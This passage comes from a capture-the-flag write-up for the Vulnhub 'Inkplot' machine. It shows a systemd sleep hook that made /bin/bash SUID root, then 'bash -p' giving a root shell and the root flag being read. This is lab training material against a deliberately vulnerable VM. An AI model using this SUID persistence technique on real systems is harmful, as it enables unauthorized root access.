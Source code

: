 {: .nolineno}

As after few minutes during inactivity I got this systemd running as →

![Untitled](/Vulnhub-Files/img/Inkplot/Untitled%203.png)

```bash
╭─pauline@inkplot /usr/lib/systemd/system-sleep 
╰─$ 
Broadcast message from root@inkplot (Sun 2023-10-08 14:11:37 CEST):

The system will suspend now!

Broadcast message from root@inkplot (Sun 2023-10-08 14:11:37 CEST):

The system will suspend now!
```
{: .nolineno}
{: .nolineno}

Now when I reloaded the system I got this →

```bash
╭─pauline@inkplot ~ 
╰─$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 23 23:23 /bin/bash
╭─pauline@inkplot ~ 
╰─$ ls -al /bin/find
-rwsr-sr-x 1 root root 224848 Jan  8  2023 /bin/find
╭─pauline@inkplot ~ 
╰─$ /bin/bash -p
bash-5.2# whoami
root
bash-5.2# id
uid=1000(pauline) gid=1000(pauline) euid=0(root) egid=0(root) groups=0(root),100(users),1000(pauline),1002(admin)
bash-5.2# cd /root
bash-5.2# ls -al
total 52
drwx------  6 root root 4096 Aug  3 19:03 .
drwxr-xr-x 18 root root 4096 Jul 27 07:34 ..
lrwxrwxrwx  1 root root    9 Jun 15 06:14 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Jul 22 11:11 .bashrc
-rw-------  1 root root   20 Aug  1 19:11 .lesshst
drwxr-xr-x  3 root root 4096 Aug  1 18:45 .local
drwxr-xr-x  4 root root 4096 Jul 26 18:48 .npm
drwxr-xr-x 12 root root 4096 Jul 22 11:11 .oh-my-zsh
-rw-r--r--  1 root root  161 Jul 22 11:11 .profile
-rwx------  1 root root   33 Aug  1 19:08 root.txt
-rw-r--r--  1 root root   66 Jul 22 11:11 .selected_editor
drwx------  2 root root 4096 Jul 25 20:14 .ssh
-rw-r--r--  1 root root  165 Jul 26 18:51 .wget-hsts
lrwxrwxrwx  1 root root    9 Jul 22 10:12 .zsh_history -> /dev/null
-rw-r--r--  1 root root 3890 Jul 22 11:11 .zshrc
bash-5.2# cat root.txt
FLAGFLAGFLAGFLAGFLAGFLAGFLAG
bash-5.2#
```
{: .nolineno}
{: .nolineno}